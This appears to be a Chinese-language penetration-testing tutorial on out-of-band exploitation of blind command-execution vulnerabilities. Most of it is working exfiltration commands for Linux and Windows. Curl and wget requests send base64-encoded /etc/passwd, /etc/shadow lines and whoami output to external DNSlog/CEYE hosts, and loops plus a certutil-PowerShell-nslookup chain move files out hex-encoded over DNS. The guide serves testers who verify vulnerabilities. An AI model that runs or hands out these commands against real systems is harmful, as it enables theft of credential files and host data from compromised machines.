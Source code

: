 # 针对无回显漏洞的利用方式

在日常检测中会遇到一些漏洞，他们无直接的回显，常规的方法比较难以确认漏洞是否存在。比如无回显的命令执行漏洞，比较耗时的时间型盲注和布尔型盲注。针对这些漏洞可以以带外查询的方式来进行漏洞验证。本篇中的内容以无回显的命令执行漏洞为例进行简要说明。

## 带外查询常见的方式

常见于dns和http协议。这里dns协议一般借助第三方或自建的平台，hhtp协议的话自己搭建个http的服务器就行，但需要有公网。以下就来介绍windows和linux平台下针对这两种协议的利用方式。

首先介绍两个第三方的平台,这两个平台目前都免费。个人使用感觉，DNSlog平台无需登陆，且服务较为稳定，但是只能记录DNS的请求，因为DNS的请求被限制在63个字符长度大小，因此使用此平台提取信息的话长度上限较小，因此推荐使用此平台进行漏洞验证，而不进行信息提取。CEYE平台功能就比DNSlog强大许多，可以记录http和DNS请求的记录，但是需要注册账号后登录后才能使用，且有时会无法访问，有可能是我这里的网络问题。  
DNSlog: <http://www.dnslog.cn/>  
CEYE: <http://ceye.io/>  

## Linux下DNS协议的应用

1. 在linux下，使用 ` (反引号，上分割符)括起来的字符串会被shell解释为命令行，在执行时，shell首先执行该命令行，并以它的标准输出结果取代整个反引号部分。这样就可以输出一些信息，如果在子域名中加入对应的编号后，即便是批量的测试仍可以精确定位问题主机。  
![oob1](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob1.png)  
![oob2](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob2.png)  
![oob3](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob3.png)  

2. 如果使用ping命令进行dns查询，那一定需要注意，因为ping在windows上是只执行4次，但在linux上很多情况下是一直执行下去的，因此需要做一下次数限制  
在linux下：ping -c 1 www.baidu.com  
![oob4](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob4.png)  
在windows下：ping -n www.baidu.com  
![oob5](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob5.png)  

3. 如果需要兼容windows和linux的命令，那就需要 ||  
|| 是或逻辑，如果第一个命令执行成功，将不会执行第二个；而如果第一个执行失败，将会执行第二个。因此以下的命令兼容windows和linux  
ping -c 1 baidu.com || ping -n baidu.com  
![oob6](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob6.png)  
![oob7](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob7.png)  

4. linux下提取IP信息 - 通用方法，其他命令回显也类似  
网上给出的命令如下，经测试存在一些问题，比如存在多个网卡会导致查询有遗漏，去掉eth0会因为多个IP间的换行符导致查询失败。这里我测试的机器是一个双网卡，分别使用了如下两条命令，均未能查询出全部结果  
ping -c 1 \`ifconfig eth0|grep "inet "|awk '{print $2}'\`.test.code2sec.com  
ping -c 1 \`ifconfig |grep "inet "|awk '{print $2}'\`.test.code2sec.com  
![oob8](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob8.png)  
![oob9](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob9.png)  
所以针对这个命令做了以下改进，将换行替换为 - ，这样即可正常查询。这样做的限制是，如果这台主机的IP地址实在太多，导致超出DNS允许的查询范围，那就可能出问题。像这样将换行替换为 - 的方式在处理多行数据的传输时是比较常见的方案，如果觉得太明显还可以使用base64加密后进行传输，下文有相关的方法。  
ping -c 1 \`ifconfig |grep "inet "|awk '{print $2}'|tr '\n' '-'\`.p8111g.dnslog.cn  
![oob10](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob10.png)  
![oob11](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob11.png)  

5. 这里也给出一种利用dns进行大文件或多行数据传输的方法  
var=11111 && for b in $(ifconfig|xxd -p ); do var=$((var+1)) && ping -c 1 $var.$b.d111jc.ceye.io; done  
![oob19](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob19.png)  
![oob20](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob20.png)  

6. 一些备用的命令  
host  |  dig  

## Linux下http协议的应用

1. http协议就建议使用CEYE或者自建定位DNS平台  
curl \`whoami\`.oyylol.dnslog.cn  
![oob12](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob12.png)  
![oob13](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob13.png)  
curl "http://ttt.d555jc.ceye.io/?\`whoami\`"  
![oob14](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob14.png)  
![oob15](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob15.png)  

2. 上面的命令在输出单行结果的时候没有问题，但是如果有多行输出的话，就需要更换方法了  
比如输出ifconfig的结果，这里的方案是将输出的结果base64加密后，再将换行替换为- ,当然这里传输出来的数据是经过base64加密的，需要解码才能得到原始数据  
curl http://d666jc.ceye.io/\`ifconfig|base64|tr '\n' '-'\`  
![oob16](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob16.png)  
如果数据较长，比如读取/etc/passwd文件的结果，可以使用CEYE来接受POST数据包  
curl -X POST http://66666c.ceye.io/  -d data=\`cat /etc/passwd|base64|tr '\n' '-'\`
![oob17](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob17.png)  
wget 也是可以的  
wget --post-data exfil=\`cat /etc/passwd|base64|tr '\n' '-'\`  http://d999jc.ceye.io  
![oob18](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob18.png)  

3. wget制定header头查看日志回显  
这里采用的是IIS服务器来接收User-Agent的方式进行数据接收  
先介绍一个linux命令   sed  
sed  -n  3p   /etc/passwd     只打印文件的第三行 - 主要用的这个  
sed  -n  '2,6p'  /etc/passwd    打印第2至6行  
![oob21](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob21.png)  
搭建一个web服务端接收数据，这里测试使用的是一个 win2003的iis，User-Agent 需打开(默认)  
![oob22](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob22.png)  
wget -d --header="User-Agent: $(sed -n 1p  /etc/passwd)" http://192.168.3.31:83/  
![oob23](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob23.png)  
![oob24](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob24.png)  
类似的curl命令也是可以的  
curl -H "User-Agent: 11  $(sed 1p  /etc/shadow)" http://192.168.3.31:83/  
![oob25](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob25.png)  
![oob26](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob26.png)  

## Windows下DNS协议的应用

1. 漏洞验证
ping %USERNAME%.xxx.ceye.io  
![oob27](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob27.png)  
![oob28](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob28.png)  

2. 大文件或多行数据传输  
使用十六进制对命令编码，Get-Content读取文件替换十六进制后为空的字符串，循环发送，并用11111标记标记循环的次数解析发送数据，这个接收数据需要提取、拼接加解码后方可还原出数据。  
ipconfig > test && certutil -encodehex -f test test.hex 4 && powershell $text=Get-Content test.hex;$sub=$text -replace(' ','');$j=11111;foreach($i in $sub){ $fin=$j.tostring()+'.'+$i+'.jf1117.ceye.io';$j += 1; nslookup $fin }  
![oob29](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob29.png)  

## Windows下http协议的应用

1. 使用浏览器，不过没人会这么用吧，直接弹出来个浏览器，是个人都能看出来电脑有问题了。  
![oob30](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob30.png)  

2. 使用 powershell 的http请求方法  
powershell.exe curl -uri http://192.168.3.33:8000 -method get  
上面这条命令win7下执行失败，win10下执行成功，原因是powershell版本原因，3.0  以后的版本支持这条命令，win7是2.0  
![oob31](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob31.png)  
查看当前的powershell版本：  powershell.exe  get-host  
下面这个图可做参考，但是有错误，比如我  win7 sp1  的 powershell 版本就是2.0的  
![oob32](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob32.png)  
![oob33](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob33.png)  

## 测试过程参考了大量的网上资料
